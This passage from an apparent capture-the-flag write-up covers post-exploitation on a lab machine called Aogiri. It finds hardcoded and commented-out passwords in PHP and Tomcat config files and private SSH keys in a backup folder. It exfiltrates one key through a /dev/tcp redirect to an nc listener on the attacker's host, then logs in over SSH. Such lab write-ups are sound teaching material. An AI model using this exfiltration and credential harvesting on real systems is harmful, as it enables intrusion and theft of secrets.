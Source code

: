 By checking the web servers configuration files in _/var/www/html_ for sensitive data, the file _users/login.php_ is the _"Aogiri Tree Members"_ login page from port 80 and it contains credentials:
```
(...)
if(isset($_POST['Submit'])){                                                               
                /* Define username and associated password array */
                $logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');
(...)
```

After login on port 80, it displays an image and some text, so these credentials seem useless.

The configuration files of **Tomcat** in _/usr/share/tomcat7_ may contain sensitive data.
The file _conf/tomcat-users.xml_ has a commented out password for _admin_, that may be useful later:
```
(...)
<!--<user username="admin" password="test@aogiri123" roles="admin" />
```

After enumerating the container further, the non-default directory _/var/backups_ is found.
The directory _backups/keys_ contains three private SSH keys:
```
www-data@Aogiri:/var/backups/backups/keys$ ls -l

-rwxr--r-- 1 root root 1675 Dec 13  2018 eto.backup
-rwxr--r-- 1 root root 1766 Dec 13  2018 kaneki.backup
-rwxr--r-- 1 root root 1675 Dec 13  2018 noro.backup
```

Downloading them to my local client:
```
cat eto.backup > /dev/tcp/10.10.14.11/9001
(...)
```

Listener on local client:
```
nc -lvnp 9001 > eto.key
(...)
```

The SSH key of _eto_ does neither work on port 22 nor on port 2222.

The SSH key of _noro_ works on port 22:
```
ssh -i noro.key noro@10.10.10.101
```

The SSH key of _kaneki_ is encrypted, but as observed in the chat before, the phrase _"ILoveTouka"_ could be the password:
```
ssh -i kaneki.key kaneki@10.10.10.101
```

The password for _kaneki_ works on port 22 and we have access to the container with two users.

### Escaping the Container
